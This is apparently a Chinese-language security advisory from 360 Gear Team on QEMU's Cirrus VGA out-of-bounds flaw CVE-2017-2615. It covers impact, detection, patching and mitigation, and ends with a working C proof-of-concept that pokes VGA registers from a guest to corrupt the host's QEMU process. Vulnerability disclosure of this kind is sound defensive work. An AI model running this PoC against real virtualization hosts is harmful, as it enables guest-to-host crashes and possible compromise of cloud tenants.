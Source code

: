 ```yaml
---
layout: post
title: "比“毒液”更恐怖！QEMU再曝高危漏洞(更新PoC)"
---
```


![][1]

# 漏洞描述

近期QEMU官方修复了由360GearTeam研究员李强报告的一个严重漏洞CVE-2017-2615，这是QEMU的VGA设备Cirrus CLGD 54xx VGA中存在一个内存越界访问读写漏洞，可以造成宿主机层面的任意代码执行，Xen官方对此漏洞编号为XSA-208。

<!-- more -->

QEMU是全球流行的开源虚拟化软件。黑客攻击者一旦利用QEMU漏洞控制宿主机，除了利用宿主机强大的性能，可以进行比特币挖矿、密码暴力破解，还可窃取宿主机所有的虚拟机数据甚至进一步的云平台内部横向攻击，危害非常严重。

由于历史原因及软件兼容性的考虑，很长一段时间QEMU的默认VGA设备是Cirrus CLGD 54xx VGA。使用QEMU作为用户态模拟的虚拟化软件如KVM，Xen(HVM模式)的VGA也默认是Cirrus，所以该漏洞会影响到使用KVM及Xen的云平台。

经过实际的版本比对分析，国内主流的公有云平台受到此漏洞影响，应尽快执行升级修复，目前已经有相关受影响公有云平台启动了修复计划。

![][2]

# 漏洞检测

由于该漏洞存在于cirrus vga的模拟中，可以在guest中直接执行lspci（相关的软件包是pciutils）查看vga是否是cirrus，如果是则存在该漏洞，如下图：

![][3]

# 修复方案

经过360GearTeam安全团队的分析，建议参考以下任一策略进行修复。

1.自行更新QEMU版本或更新对补丁进行修复

补丁链接： <https://lists.gnu.org/archive/html/qemu-devel/2017-02/msg00015.html> 

![][4]

2.修改启动虚拟机相关选项，不使用cirrus vga，改用std vga或者virtio vga

事实上，cirrus vga是90年代早期的设备，存在各种bug和安全问题。详细可以参考qemu vga的维护者Gerd Hoffmann的这篇文章qemu: using cirrus considered harmful(<https://www.kraxel.org/blog/2014/10/qemu-using-cirrus-considered-harmful/> )。在qemu的upstream中，已经准备放弃cirrus显卡模拟。

# 漏洞细节

该漏洞存在于Cirrus VGA的bitblt操作中，bitblt是bit block transfer的缩写。在VGA模拟中，会分配一段内存vram作为VGA的显示区域，进行bitblt的拷贝操作时，会在这个内存区域中进行数据的拷贝与传输。

该漏洞即发生在向后拷贝的安全检查中，直接看补丁。

![][5]

在补丁中，pitch < 0时，表示是从vram的后面往前面拷贝数据，min表示的是前面的起始位置。未打补丁之前，会允许读写vram的前面部分，这可能导致读host的信息，也可能导致代码执行，造成宿主机层面代码任意执行。

运行PoC（漏洞验证代码）之后，在宿主机可以看到QEMU处于一个不正常的状态。

![][6]

# 更新PoC

```c
/*
 *  CVE-2017-2615 PoC 
 * 
 *  Qiang Li of the Gear Team, Qihoo 360 Inc.
 *  
 *  #gcc poc.c -o poc
 *  #./poc 
 *
*/
#include <sys/io.h>
#include <stdio.h>
 
void write_sr(int idx,int val)
{
      outb(idx,0x3c4);
      outb(val,0x3c5);
}
void write_gr(int idx,int val)
{
        outb(idx,0x3ce);
        outb(val,0x3cf);
}

int main()
{
        iopl(3);
        write_sr(0x07,1);
        write_gr(0x31,0x80);
        write_gr(0x26,0xff);
        write_gr(0x27,0xff);
        write_gr(0x24,1);
        write_gr(0x20,0xff);
        write_gr(0x21,0xff);
        write_gr(0x22,0x0);
        write_gr(0x23,0x0);
        write_gr(0x28,0);
        write_gr(0x29,0);
        write_gr(0x2a,0);
        write_gr(0x2c,0xff);
        write_gr(0x2d,0xff);
        write_gr(0x2e,0xff);
        write_gr(0x30,1);
        write_gr(0x2a,0);
        return 0;
}
```

# 关于360GearTeam

360 Gear Team是360公司一支专注于云安全与互联网核心开源组件安全研究的新锐团队，2016年获QEMU、Xen、VirtualBox、Docker等虚拟化软件致谢67次，以及OpenSSL、NTP、Firefox等重要开源项目致谢49次，成立不到一年就荣获了上百次漏洞报告致谢。团队在保卫360自身内部业务的同时，也在守护互联网的安全。

[1]: https://p5.ssl.qhimg.com/t015a656de8c0cb6ee6.jpg
[2]: https://p4.ssl.qhimg.com/t01f55db29d646f3f3b.png
[3]: https://p1.ssl.qhimg.com/t01ee51a3105df68c05.png
[4]: https://p3.ssl.qhimg.com/t01d541a6362d85dacc.png
[5]: https://p1.ssl.qhimg.com/t01eee49995cbc96820.png
[6]: https://p0.ssl.qhimg.com/t019481ce4962103b46.png